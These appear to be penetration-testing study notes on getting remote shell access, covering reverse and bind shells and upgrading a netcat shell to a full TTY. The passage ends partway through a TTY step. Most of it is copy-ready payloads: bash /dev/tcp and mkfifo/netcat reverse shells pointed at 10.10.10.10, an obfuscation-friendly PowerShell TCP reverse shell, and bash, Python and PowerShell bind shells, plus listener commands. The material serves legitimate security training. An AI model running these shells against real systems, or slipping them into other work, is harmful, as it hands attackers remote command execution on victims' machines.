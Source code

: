 - Reverse Shell command
  - The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shell commands
  - We can utilize the exploit we have over the remote host to execute one of the below commands, i.e., through a Python exploit or a Metasploit module, to get a reverse connection.
  - Reverse Shell can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.
  - Bash:
    - `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`
    - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`
      - `nc -lvnp 9443`
  - Powershell:
    - `powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

- Bind Shell
  - Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port.
  - The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) lists Bind Shell commands.
  - Bash:
    - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`
  - Python:
    - `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`
  - Powershell:
    - `powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();`
  - `nc 10.10.10.1 1234`
  - Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. 
  - Upgrading TTY
    - Once we connect to a shell through Netcat, we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history.
    - Need to upgrade our TTY.
      - Can be achieved by mapping our terminal TTY with the remote TTY.
      - Could use the *python/stty* method. Run the following from our netcat shell to upgrade our shell to a full tty.
        - `python -c 'import pty; pty.spawn("/bin/bash")'`
      - ctrl+z to background our shell and get back on our local terminal, and input the following stty command:
        - `stty raw -echo`
      - Enter `fg` to bring our netcat shell to the foreground.
      - At this point, the terminal will show a blank line. We can hit enter again to get back to our shell or input reset and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.
      - Atm shell does not cover the entire terminal.
        - Open another terminal, maximise the window, and then input:
          - `echo $TERM` --> `xterm-256color`
          - `stty size` --> `67 318`
        - Go back to the netcal shell and enter: